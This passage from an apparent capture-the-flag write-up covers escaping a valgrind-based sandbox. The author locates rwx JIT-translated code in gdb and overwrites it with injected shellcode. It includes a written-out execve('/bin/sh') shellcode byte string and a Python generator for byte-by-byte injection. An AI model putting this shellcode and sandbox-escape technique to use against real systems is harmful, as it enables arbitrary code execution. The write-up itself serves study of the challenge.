 ```assembly
jne loop

jmp cool

ret
```

The special constant will allow us to find the translation for the `cool:` block:

```
$ sudo gdb -p 251329

gef➤  search-pattern 0xfaceb00b
[+] Searching '\x0b\xb0\xce\xfa' in memory
[+] In '/home/andrew/hxp/sandboxgrind/solve/attempt1'(0x401000-0x402000), permission=r-x
  0x401002 - 0x401012  →   "\x0b\xb0\xce\xfa[...]" 
[+] In (0x1002001000-0x10026bc000), permission=rwx
  0x1002003400 - 0x1002003410  →   "\x0b\xb0\xce\xfa[...]" 
[+] In (0x1002b71000-0x1003af1000), permission=rwx
  0x1002d9d00a - 0x1002d9d01a  →   "\x0b\xb0\xce\xfa[...]" 
  0x1002d9d2f2 - 0x1002d9d302  →   "\x0b\xb0\xce\xfa[...]" 
gef➤  
```

Our constant was only found in three rwx locations. The bottom two are plausible: We can look at the disassembly:

```
Dump of assembler code from 0x1002d9d000 to 0x1002d9d010:
   0x0000001002d9d000:  dec    DWORD PTR [rbp+0x8]
   0x0000001002d9d003:  jns 0x1002d9d008
   0x0000001002d9d005:  jmp    QWORD PTR [rbp+0x0]
   0x0000001002d9d008:  movabs r10,0xfaceb00b

gef➤  disass 0x1002d9d2f0,+16
Dump of assembler code from 0x1002d9d2f0 to 0x1002d9d300:
   0x0000001002d9d2f0:  movabs r10, 0xfaceb00b
   0x0000001002d9d2fa:  mov    QWORD PTR [rbp+0x40],r10
   0x0000001002d9d2fe:  mov    r11,0x40100c
```


This even shows the translation at work... valgrind translated our instruction to use a different register (r10 instead of rsi in the original code)... interesting!

So lets just place our shellcode at these addresses and see what happens:

First, generate instructions to place shellcode byte-by-byte using:

```py
data = b"\x48\xBF\x2F\x62\x69\x6E\x2F\x73\x68\x00\x57\x48\x89\xE7\x48\xC7\xC6\x00\x00\x00\x00\x48\xC7\xC2\x00\x00\x00\x00\xB8\x3B\x00\x00\x00\x0F\x05"
for i, b in enumerate(data):
    print(f"mov byte ptr [r12+{i}], {hex(b)}")
```
